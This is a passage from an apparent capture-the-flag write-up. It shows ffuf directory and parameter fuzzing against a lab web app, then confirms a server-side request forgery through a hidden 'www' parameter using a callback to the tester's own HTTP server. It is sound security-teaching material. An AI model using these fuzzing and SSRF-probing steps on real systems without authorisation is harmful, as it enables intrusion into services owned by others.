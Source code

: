![Web 8080 Index](web_8080_index.webp){: width="1200" height="600" }

Upon checking the linked pages, `http://10.10.59.255:8080/gallery` seems interesting as it allows image uploads. However, since it is a Python application, there doesn't appear to be much we can do with it for now.

![Web 8080 Gallery](web_8080_gallery.webp){: width="1200" height="600" }

Checking the source code for the page reveals an interesting comment about being able to upload images using a URL.

![Web 8080 Gallery Source](web_8080_gallery_source.webp){: width="1200" height="600" }

## Shell as beth

### Discovering SSRF

Fuzzing the application for directories reveals the `/view_image` endpoint.

```console
$ ffuf -u 'http://10.10.59.255:8080/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -mc all -ic -t 50 -fs 232
...
view_image              [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 130ms]
```
{: .wrap }

Checking `http://10.10.59.255:8080/view_image`, we see that it does not accept `GET` requests.

![Web 8080 View Image](web_8080_view_image.webp){: width="1200" height="600" }

However, if we send a `POST` request, it displays a form where we can enter a URL.

![Web 8080 View Image Post](web_8080_view_image_post.webp){: width="1200" height="600" }

Testing the form with a URL for our server shows that it uses the `image_url` parameter to send our input. However, we don't observe any requests being made to our server; it appears the application simply takes our input and displays it using the `img` tag.

![Web 8080 View Image Image Url](web_8080_view_image_image_url.webp){: width="1100" height="500" }

Fuzzing for other parameters it might accept, we discover the `www` parameter.

```console
$ ffuf -u 'http://10.10.59.255:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'FUZZ=http://10.11.72.22/test' -mc all -t 50 -ic -fs 823
...
www                     [Status: 200, Size: 335, Words: 84, Lines: 14, Duration: 572ms]
```
{: .wrap }

This time, we can see the server making a request to our server.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.59.255 - - [26/Sep/2024 15:53:01] code 404, message File not found
10.10.59.255 - - [26/Sep/2024 15:53:01] "GET /test HTTP/1.1" 404 -
```
